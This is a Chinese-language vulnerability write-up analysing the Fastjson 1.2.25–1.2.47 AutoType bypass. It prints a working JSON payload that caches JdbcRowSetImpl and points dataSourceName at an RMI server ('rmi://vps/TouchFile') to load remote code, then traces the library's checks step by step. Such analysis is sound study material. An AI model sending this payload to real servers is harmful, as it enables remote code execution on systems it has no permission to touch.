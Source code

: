 # Fastjson1.2.25-1.2.47绕过无需AutoType

## 说明

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

其他的限制

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191

## Payload与简单思路分析

首先给出payload

```
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://vps/TouchFile",
		"autoCommit": true
	}
}
```

通过java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，checkAutoType()就会抛出异常终止程序。

## 受AutoTypeSupport影响的版本分析

### 未开启AutoType时



第一次在调用`checkAutoType`的时候

在接下来的findClass()函数中直接被找到，并在后面的if判断clazz不为空后直接返回

![](img/2.png)

调用到`MiscCodec.deserialze()`,判断键是否为”val”，是的话再提取val键对应的值赋给objVal变量，而objVal在后面会赋值给strVal变量

![](img/3.png)

接着判断clazz是否为Class类，是的话调用TypeUtils.loadClass()加载strVal变量值指向的类

![](img/4.png)

在TypeUtils.loadClass()函数中，成功加载com.sun.rowset.JdbcRowSetImpl类后，就会将其缓存在Map中：

![](img/5.png)

之后在扫描第二部分的JSON数据时，由于前面第一部分JSON数据中的val键值`com.sun.rowset.JdbcRowSetImpl`已经缓存到`Map`中了，所以当此时调用`TypeUtils.getClassFromMapping()`时能够成功从Map中获取到缓存的类，进而在下面的判断clazz是否为空的if语句中直接return返回了，从而成功绕过`checkAutoType()`检测

![](img/6.png)

### 开启AutoType时

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

第一部分还是一样的过程，但是第二部分无法绕过黑名单

![](img/7.png)

## 不受AutoTypeSupport影响的版本分析

### 未开启AutoType时

比较类似就不分析了





### 开启AutoType时

在第一部分JSON数据的扫描解析中，由于@type指向java.lang.Class，因此即使是开启AutoTypeSupport先后进行白名单、黑名单校验的情况下都能成功通过检测，之后和前面的一样调用findClass()函数获取到Class类，毕竟`TypeUtils.getClassFromMapping(typeName)`不为`null`

![](img/8.png)
